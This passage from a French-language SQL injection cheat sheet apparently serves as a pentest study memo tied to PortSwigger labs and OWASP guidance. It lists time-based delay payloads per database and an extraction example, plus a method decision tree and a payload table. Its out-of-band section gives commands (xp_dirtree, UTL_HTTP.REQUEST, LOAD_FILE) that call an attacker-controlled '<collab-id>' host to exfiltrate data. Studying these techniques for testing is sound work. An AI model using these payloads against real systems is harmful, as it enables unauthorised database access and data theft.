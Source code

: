   * **MySQL** : `SLEEP(5)`
  * **PostgreSQL** : `pg_sleep(5)`
  * **SQL Server** : `WAITFOR DELAY '0:0:5'`
  * **Oracle** : `dbms_pipe.receive_message('a',5)`
    Ex. : `… AND IF(ASCII(SUBSTRING(version(),1,1))>77,SLEEP(5),0)--`
    \*(Tutoriels/Labs time-based) ([PortSwigger][10])

### 3.3 OAST / Out-of-Band (quand l’app ne “répond” pas)

* **Principe** : déclencher une **requête externe** (DNS/HTTP) vers un domaine que vous contrôlez (ex. **Burp Collaborator**) pour prouver l’injection et **exfiltrer**. ([PortSwigger][11])
* **Techniques fréquentes (selon SGBD & droits)** :

  * **SQL Server (Windows)** : `; EXEC master..xp_dirtree '\\<collab-id>\\a'--` (déclenche SMB/DNS). ([redsiege.com][12])
  * **Oracle** : `UTL_HTTP.REQUEST('http://<collab-id>')` ou `DBMS_LDAP.INIT(...)`. ([InfoSec Write-ups][13])
  * **MySQL (Windows)** : `LOAD_FILE('\\\\<collab-id>\\a')` peut causer une résolution réseau (selon config). ([Exploit Database][14])
* **Cas d’usage** : les requêtes SQL sont **asynchrones** (pas d’effet sur la page), **OAST** devient la seule voie fiable. ([PortSwigger][15])

> **Checklists blind**
>
> * [ ] Point d’injection stabilisé
> * [ ] Méthode (boolean/time/OAST) choisie
> * [ ] Payload d’extraction (version/DB) validé
> * [ ] Script d’automatisation (bisection) prêt

---

## 4) Arbre de décision (résumé)

1. **Erreur visible ?**
   → Oui : **Error/UNION** → nb colonnes → colonnes texte → enum. ([PortSwigger][6])
   → Non :
2. **Différence de contenu ?** (Welcome/compteur/longueur)
   → Oui : **Boolean-based** (dichotomie). ([PortSwigger][8])
   → Non :
3. **Latence mesurable ?**
   → Oui : **Time-based** (SLEEP/WAITFOR/pg\_sleep). ([PortSwigger][10])
   → Non / Async :
4. **OAST** (Burp Collaborator / DNS/HTTP externe). ([PortSwigger][11])

---

## 5) Payloads de base par SGBD (mémo rapide)

| Objectif     | MySQL             | PostgreSQL                                      | SQL Server              | Oracle                             |
| ------------ | ----------------- | ----------------------------------------------- | ----------------------- | ---------------------------------- |
| Version      | `version()`       | `version()`/`current_setting('server_version')` | `@@version`             | `banner FROM v$version`            |
| DB courante  | `database()`      | `current_database()`                            | `DB_NAME()`             | `ora_database_name FROM dual`      |
| Time delay   | `SLEEP(5)`        | `pg_sleep(5)`                                   | `WAITFOR DELAY '0:0:5'` | `dbms_pipe.receive_message('a',5)` |
| Substr/ASCII | `SUBSTRING/ASCII` | `SUBSTRING/ASCII`                               | `SUBSTRING/ASCII`       | `SUBSTR/ASCII`                     |


[1]: https://portswigger.net/web-security/sql-injection? "What is SQL Injection? Tutorial & Examples | Web Security"
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection? "Testing for SQL Injection"
[3]: https://portswigger.net/web-security/sql-injection/blind? "What is Blind SQL Injection? Tutorial & Examples"
[4]: https://portswigger.net/web-security/sql-injection/cheat-sheet? "SQL injection cheat sheet | Web Security Academy"
[5]: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns? "Lab: SQL injection UNION attack, determining the number ..."
[6]: https://portswigger.net/web-security/sql-injection/union-attacks? "SQL injection UNION attacks | Web Security Academy"
[7]: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle? "SQL injection attack, listing the database contents on Oracle"
[8]: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses? "Lab: Blind SQL injection with conditional responses"
[9]: https://www.invicti.com/learn/blind-sql-injection/? "Blind SQL Injection"
[10]: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval? "Blind SQL injection with time delays and information retrieval"
[11]: https://portswigger.net/burp/application-security-testing/oast? "Out-of-Band Application Security Testing (OAST) Software"
[12]: https://redsiege.com/tools-techniques/2018/09/capturing-sql-server-user-hash-with-sqli/?  "Capturing SQL Server User Hash with SQLi"
[13]: https://infosecwriteups.com/out-of-band-oob-sql-injection-87b7c666548b?  "Out-of-Band (OOB) SQL Injection"
[14]: https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf?  "MySQL Out-of-Band Hacking"
[15]: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band?  "Lab: Blind SQL injection with out-of-band interaction"
[16]: https://github.com/sqlmapproject/sqlmap/wiki/Techniques?  "Techniques · sqlmapproject/sqlmap Wiki"
[17]: https://highon.coffee/blog/sqlmap-cheat-sheet/?  "SQLMap Cheat Sheet: Flags & Commands for SQL Injection"
[18]: https://www.vaadata.com/blog/exploiting-an-sql-injection-with-waf-bypass/?  "Exploiting an SQL injection with WAF bypass - Vaadata"